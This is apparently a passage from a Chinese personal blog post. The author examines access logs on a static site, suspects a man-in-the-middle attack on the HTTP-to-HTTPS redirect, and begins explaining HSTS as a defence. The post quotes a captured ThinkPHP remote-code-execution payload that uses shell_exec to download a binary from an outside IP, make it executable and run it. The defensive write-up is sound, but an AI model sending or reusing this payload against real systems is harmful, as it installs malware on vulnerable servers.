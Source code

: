 ```
172.69.34.226 - - [26/Jul/2020:05:57:09 +0800] "GET /index.php/_login/in HTTP/1.1" 301 169 "http://95.179.179.26/index.php/_login/in" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.35.69 - - [26/Jul/2020:05:57:09 +0800] "GET / HTTP/1.1" 301 169 "http://95.179.179.26/" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.33.185 - - [26/Jul/2020:05:57:09 +0800] "GET /js/preload/example.txt HTTP/1.1" 301 169 "http://95.179.179.26/js/preload/example.txt" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
172.69.33.43 - - [26/Jul/2020:05:57:09 +0800] "GET /11.txt HTTP/1.1" 301 169 "http://95.179.179.26/11.txt" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; InfoPath.3; KB974488)"
```

第一条日志就发现问题了，我的博客是个静态页面网站，跟PHP完全没有关系，而且URL后面跟的那一堆明显是攻击的函数。

```
invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://45.95.168.230/taevimncorufglbzhwxqpdkjs/Meth.x86 -O thinkphp ; chmod 777 thinkphp ; ./thinkphp ThinkPHP ; rm -rf thinkphp'
```

再看后面的日志，都是访问一些不知所云的页面，并且都是`301`重定向，因此我估计在重定向HTTPS的时候出现了问题。

## 追根溯源，锁定凶手

> 中间人攻击（英语：Man-in-the-middle attack，缩写：MITM）在密码学和计算机安全领域中是指攻击者与通讯的两端分别创建独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。在中间人攻击中，攻击者可以拦截通讯双方的通话并插入新的内容。在许多情况下这是很简单的（例如，在一个未加密的Wi-Fi 无线接入点的接受范围内的中间人攻击者，可以将自己作为一个中间人插入这个网络）。
> 一个中间人攻击能成功的前提条件是攻击者能将自己伪装成每一个参与会话的终端，并且不被其他终端识破。中间人攻击是一个（缺乏）相互认证的攻击。大多数的加密协议都专门加入了一些特殊的认证方法以阻止中间人攻击。例如，SSL协议可以验证参与通讯的一方或双方使用的证书是否是由权威的受信任的数字证书认证机构颁发，并且能执行双向身份认证。
> 来自：[维基百科：中间人攻击](https://zh.wikipedia.org/wiki/%E4%B8%AD%E9%97%B4%E4%BA%BA%E6%94%BB%E5%87%BB)

中间人攻击是比较常见的网络攻击手段，如果通讯双方缺少有效的认证手段就有可能导致中间人攻击。

一般来说如果网站配置了HTTPS，双方通讯就都是可靠加密了。不过用户习惯很难直接改变，包括我也一样，不会特意去敲上一段`https://`，因此网站一般都会通过重定向HTTP到HTTPS来保证使用HTTPS。

从可见的日志推断，我认为自己的网站最有可能遭受了中间人攻击。

## 御敌于外：配置HSTS
基本确定了凶手之后，就可以查询解决方案。一番查找之后，发现针对中间人攻击，目前主要的方案是采用**HSTS**。

> HSTS（HTTP Strict Transport Security, HTTP严格传输安全协议）表明网站已经实现了TLS，要求浏览器对用户明文访问的Url重写成HTTPS，避免了始终强制302重定向的延时开销。
> 来自：[电商网站HTTPS实践之路（三）——性能优化篇](https://blog.csdn.net/zhuyiquan/article/details/71430020#21-hsts%E7%9A%84%E5%90%88%E7%90%86%E4%BD%BF%E7%94%A8)

### HSTS基本语法
